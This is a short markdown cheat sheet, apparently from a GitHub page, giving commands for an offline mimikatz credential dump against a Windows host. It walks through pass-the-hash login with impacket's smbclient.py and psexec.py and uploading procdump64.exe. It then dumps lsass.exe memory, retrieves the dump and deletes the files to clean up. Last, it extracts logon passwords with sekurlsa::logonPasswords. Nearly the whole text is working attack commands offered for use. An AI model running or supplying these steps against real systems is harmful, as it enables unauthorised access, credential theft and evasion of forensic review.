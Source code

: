 ## mimikatz

### offline dump

Versions used:

* `impacket v0.9.19-dev`
* `mimikatz`
* `procdump64.exe`


Send `procdump64.exe` using `smclient.py`:

```
smbclient.py -hashes aad3b435b51404eeaad3b435b51404ee:9f0e084ccc077085a245845e8674add ./Administrator@192.168.0.1

use C$
cd windows/temp
mkdir test_34
cd test_34
put procdump64.exe
```

Dump `lsass.exe` using `procdump64.exe` through `psexec.py`:

```
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:9f0e084ccc077085a245845e8674add ./Administrator@192.168.0.1

cd ../temp/test_34
procdump64.exe -accepteula -ma lsass.exe hello.dmp
exit
```

Retrieve `hello.dmp` using `smbclient.py` then clean:

```
get hello.dmp
rm hello.dmp
rm procdump64.exe
cd ../
rmdir test_34
exit
```

Get logon passwords using `mimikatz` (extract from a Windows with a major NT version equal to the victim one):

```
sekurlsa::minidump hello.dmp
log 192.168.0.1_sekurlsa.log
sekurlsa::logonPasswords
```






